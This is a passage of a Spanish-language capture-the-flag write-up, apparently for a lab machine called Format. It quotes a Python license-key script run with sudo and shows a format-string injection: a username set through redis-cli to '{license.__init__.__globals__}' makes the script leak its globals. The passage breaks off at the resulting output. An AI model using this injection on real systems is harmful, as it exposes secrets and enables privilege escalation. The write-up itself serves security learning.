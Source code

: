```null
    license_key_encoded = license_key.encode()
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

#deprovision
if(args.deprovision):
    print("")
    print("License key deprovisioning coming soon")
    print("")
    sys.exit()

#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```

Se puede abusar de el formato de cadena. En este [artículo](https://podalirius.net/en/articles/python-format-string-vulnerabilities/) está detallado. Desde el ```redis```, modifico mi nombre de usuario

```null
cooper@format:~$ redis-cli -s /var/run/redis/redis.sock 
redis /var/run/redis/redis.sock> hset rubbx username {license.__init__.__globals__}
(integer) 0
```

Al volver a ejecutar, se genera un error donde se leakean datos

{%raw%}
```null
ooper@format:~$ sudo license -p rubbx

Plaintext license key:
------------------------------------------------------
```